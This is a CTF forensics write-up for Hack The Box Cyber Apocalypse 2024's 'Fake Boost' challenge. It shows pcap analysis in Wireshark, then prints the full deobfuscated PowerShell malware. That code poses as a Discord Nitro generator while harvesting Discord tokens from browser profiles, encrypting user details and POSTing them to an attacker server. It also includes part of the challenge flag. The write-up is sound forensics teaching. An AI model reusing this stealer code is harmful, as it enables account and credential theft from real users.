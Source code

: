 # Hack The Box Cyber Apocalypse 2024

## Table of Contents
- [forensics/fake_boost](#forensicsfake-boost)
- [forensics/game_invitation](#forensicsgame-invitation)
- [pwn/writing_on_the_wall](#pwnwriting-on-the-wall)
- [pwn/delulu](#pwndelulu)
- [pwn/rocket_blaster_xxx](#pwnrocket-blaster-xxx)
- [pwn/pet_companion](#pwnpet-companion)
- [pwn/sound_of_silence](#pwnsound-of-silence)

## Forensics/Fake Boost

We are given a .pcapng file so we will open it in Wireshark. The first thing I like to do when opening pcap files is to go to Statistics > Protocol Hiearchy

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/b39e4bf3-d291-49ad-8673-c56ba9763ce4)

We can see that there are some HTTP packets. 

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/3ef682e3-59ff-4de8-b7f3-0dfc20597f76)

Lets filter out those packets

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/ff8cd664-657e-48ac-b9b6-db08d276a5eb)

When we follow TCP stream 3, we can see the user sent a GET request for a discordnitro.ps1 file. Its content can also be viewed in Wireshark
After reading the script, it looks like the extremely long string is being reversed and decoded from base64.

![image](https://github.com/fyrepaw13/ctf_writeups/assets/62428064/38a289b3-08ea-4e65-8f9e-de0f53d3a604)

<details>
<summary>Output</summary>

```powershell
$URL = "http://192.168.116.135:8080/rj1893rj1joijdkajwda"

function Steal {
    param (
        [string]$path
    )

    $tokens = @()

    try {
        Get-ChildItem -Path $path -File -Recurse -Force | ForEach-Object {
            
            try {
                $fileContent = Get-Content -Path $_.FullName -Raw -ErrorAction Stop

                foreach ($regex in @('[\w-]{26}\.[\w-]{6}\.[\w-]{25,110}', 'mfa\.[\w-]{80,95}')) {
                    $tokens += $fileContent | Select-String -Pattern $regex -AllMatches | ForEach-Object {
                        $_.Matches.Value
                    }
                }
            } catch {}
        }
    } catch {}

    return $tokens
}

function GenerateDiscordNitroCodes {
    param (
        [int]$numberOfCodes = 10,
        [int]$codeLength = 16
    )

    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
    $codes = @()

    for ($i = 0; $i -lt $numberOfCodes; $i++) {
        $code = -join (1..$codeLength | ForEach-Object { Get-Random -InputObject $chars.ToCharArray() })
        $codes += $code
    }

    return $codes
}

function Get-DiscordUserInfo {
    [CmdletBinding()]
    Param (
        [Parameter(Mandatory = $true)]
        [string]$Token
    )

    process {
        try {
            $Headers = @{
                "Authorization" = $Token
                "Content-Type" = "application/json"
                "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36"
            }

            $Uri = "https://discord.com/api/v9/users/@me"

            $Response = Invoke-RestMethod -Uri $Uri -Method Get -Headers $Headers
            return $Response
        }
        catch {}
    }
}

function Create-AesManagedObject($key, $IV, $mode) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"

    if ($mode="CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
    elseif ($mode="CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
    elseif ($mode="CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
    elseif ($mode="ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
    elseif ($mode="OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}


    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }
    if ($key) {
        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}

Write-Host "
______              ______ _                       _   _   _ _ _               _____  _____  _____   ___ 
|  ___|             |  _  (_)                     | | | \ | (_) |             / __  \|  _  |/ __  \ /   |
| |_ _ __ ___  ___  | | | |_ ___  ___ ___  _ __ __| | |  \| |_| |_ _ __ ___   `' / /'| |/' |`' / /'/ /| |
|  _| '__/ _ \/ _ \ | | | | / __|/ __/ _ \| '__/ _` | | . ` | | __| '__/ _ \    / /  |  /| |  / / / /_| |
| | | | |  __/  __/ | |/ /| \__ \ (_| (_) | | | (_| | | |\  | | |_| | | (_) | ./ /___\ |_/ /./ /__\___  |
\_| |_|  \___|\___| |___/ |_|___/\___\___/|_|  \__,_| \_| \_/_|\__|_|  \___/  \_____/ \___/ \_____/   |_/
                                                                                                         
                                                                                                         "
Write-Host "Generating Discord nitro keys! Please be patient..."

$local = $env:LOCALAPPDATA
$roaming = $env:APPDATA
$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"

$paths = @{
    'Google Chrome' = "$local\Google\Chrome\User Data\Default"
    'Brave' = "$local\BraveSoftware\Brave-Browser\User Data\Default\"
    'Opera' = "$roaming\Opera Software\Opera Stable"
    'Firefox' = "$roaming\Mozilla\Firefox\Profiles"
}

$headers = @{
    'Content-Type' = 'application/json'
    'User-Agent' = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36'
}

$allTokens = @()
foreach ($platform in $paths.Keys) {
    $currentPath = $paths[$platform]

    if (-not (Test-Path $currentPath -PathType Container)) {continue}

    $tokens = Steal -path $currentPath
    $allTokens += $tokens
}

$userInfos = @()
foreach ($token in $allTokens) {
    $userInfo = Get-DiscordUserInfo -Token $token
    if ($userInfo) {
        $userDetails = [PSCustomObject]@{
            ID = $userInfo.id
            Email = $userInfo.email
            GlobalName = $userInfo.global_name
            Token = $token
        }
        $userInfos += $userDetails
    }
}

$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
$payload = $userInfos | ConvertTo-Json -Depth 10
$encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload

try {
    $headers = @{
        'Content-Type' = 'text/plain'
        'User-Agent' = 'Mozilla/5.0'
    }
    Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
}
catch {}

Write-Host "Success! Discord Nitro Keys:"
$keys = GenerateDiscordNitroCodes -numberOfCodes 5 -codeLength 16
$keys | ForEach-Object { Write-Output $_ }
```

</details>
